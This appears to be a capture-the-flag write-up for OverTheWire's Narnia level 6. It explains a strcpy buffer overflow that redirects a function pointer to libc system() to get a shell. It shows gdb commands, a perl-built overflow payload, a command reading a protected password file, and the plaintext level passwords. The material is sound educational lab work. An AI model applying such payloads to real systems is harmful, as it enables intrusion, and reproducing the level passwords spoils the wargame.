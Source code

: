 # Level 6 -> Level 7
ssh narnia6@narnia.labs.overthewire.org -p 2226  
Pass: BAV0SUV0iM  
An initial run of the binary shows the following:  
<img width="402" alt="Screen Shot 2024-04-01 at 9 42 05 AM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/ce76ea56-ec51-4843-96c9-5f249d448936">

Looking at the C source file we see several important pieces. 
The first important piece we see is the assembly instructions. We see that these instructions are in At&t syntax which is in the form operation source, dest.  
Note that for At&t syntax % is used for registers and $ is used for immediate values.
We see that these instructions inside of the get_sp method mov a long "movl" from esp to eax and then performs an "and" operation on eax with the value 0xff000000.  

The second key piece of information is that we see the use strcpy which is a known dangerous C function because it does not perform boundary checking so it is vulenrable to buffer overflows. We see that we provide two command line arguments which are copied into two arrays of size 8. 

We see the line:
int  (*fp)(char *)=(int(*)(char *))&puts, i;
This creates a function pointer "fp" which points at the puts() function.
So after this whatever is passed to "fp" will be printed to the console via puts().

If we can get fp to point at something like "system" and then pass a /bin/sh to it we can get a shell.  
So we want to grab the memory address of the system function in the libc library of the binary which we can do using gdb.  
$ gdb ./narnia6  
(gdb) break main   
(gdb) r  
(gdb) p system   
This sequence of commands gives us the following line of output:  
$1 = {int (const char *)} 0xf7c48170 <__libc_system>  
So now we now that 0xf7c48170 is the address that points to system() in the libc library.

$ ./narnia6 $(perl -e 'print "AAAAAAAA\x70\x81\xc4\xf7\ BBBBBBBB/bin/sh"')  
$ cat /etc/narnia_pass/narnia7  
Pass: YY4F9UaB60  
